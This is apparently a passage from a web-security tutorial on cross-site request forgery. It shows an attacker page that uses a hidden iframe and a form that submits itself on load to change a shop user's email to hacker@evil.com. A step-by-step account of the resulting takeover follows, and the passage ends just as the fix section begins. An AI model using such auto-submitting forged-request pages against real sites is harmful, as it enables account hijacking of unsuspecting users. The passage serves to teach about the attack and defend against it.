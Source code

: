 ```javascript
});
```

**The Attacker's Site: `free-games.com`**

```html
<!DOCTYPE html>
<html>
<head>
    <title>FREE GAMES! Click Here!</title>
</head>
<body>
    <h1>🎮 Download Free Games!</h1>
    <button>Click to Download</button>
    
    <!-- HIDDEN ATTACK - User can't see this -->
    <iframe name="hidden" style="display:none;"></iframe>
    
    <form id="attack" 
          action="http://shop.com/change-email" 
          method="POST" 
          target="hidden">
        <input type="hidden" name="newEmail" value="hacker@evil.com">
    </form>
    
    <script>
        // Auto-attack when page loads
        window.onload = () => {
            // If user is logged into shop.com,
            // their cookie gets sent automatically!
            document.getElementById('attack').submit();
        };
    </script>
</body>
</html>
```

### What Happens:

1. **Alice logs into shop.com** → Gets cookie `userSession=alice-token-12345`
2. **Alice visits free-games.com** (attacker's site)
3. **Hidden form auto-submits** to shop.com/change-email
4. **Browser sends Alice's cookie** (because sameSite='none')
5. **shop.com thinks it's Alice** and changes her email to `hacker@evil.com`
6. **Attacker now controls Alice's account** (can reset password via email)

---

## The Fix

### ✅ Secure Version
